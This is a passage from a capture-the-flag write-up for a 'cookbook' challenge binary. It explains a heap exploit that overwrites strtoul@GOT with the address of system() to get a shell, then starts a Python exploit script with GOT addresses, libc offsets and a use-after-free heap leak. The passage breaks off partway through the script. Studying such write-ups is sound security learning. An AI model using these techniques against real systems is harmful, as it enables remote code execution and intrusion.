 Then, I went back to the main menu and gave my cookbook a name of a size I calculated would bring me to precisely 8 bytes before the address I wanted to overwrite. 
In my exploit, I chose to overwrite the pointer stored in `strtoul@GOT` and replace it with the address of `system()`.
`Strtoul` was an ideal candidate to be overwritten because the program pushed user controlled input onto the stack before calling it, and the second argument passed in was 0.

For my third `malloc()`, I simply gave my cookbook another new name of 5 bytes and set the name to be the calculated address of `system()` in libc.

Finally, I gave my cookbook another name and set the size to be `"/bin/sh\n"` to gain a shell.

## Solution

{% highlight python %}
#!/usr/bin/python
import os, sys, socket
import struct
import telnetlib

PUTS_GOT = 0x0804d030
STRTOUL_GOT = 0x0804d038
PUTS_OFFSET = 0x65650
SYSTEM_OFFSET = 0x40190
WILDERNESS_OFFSET = 0x1af0 # distance from heap base addr to wilderness chunk DATA addr

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]

def conn():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #s.connect(('cookbook.bostonkey.party',5000))
    s.connect(('127.0.0.1', 1337))
    f = s.makefile('w', bufsize=0)
    return s, f

def readuntil(f, delim='[q]uit\n'):
  data = ''
  while not data.endswith(delim):
    data += f.read(1)
  return data

def interact():
  t = telnetlib.Telnet()
  t.sock = s
  t.interact()

s, f = conn()

print "[+] STAGE 1"
payload  = 'AAAA\n'
readuntil(f, "what's your name?")
f.write(payload)
readuntil(f)
f.write("c\n")
readuntil(f)
f.write("n\n")
readuntil(f)
f.write("g\n")

# UAF to leak heap chunk addr
f.write("A"*4+"\n")
readuntil(f)
f.write("a\n") # note: adding an ingredient calloc()'s two chunks on top of recipe chunk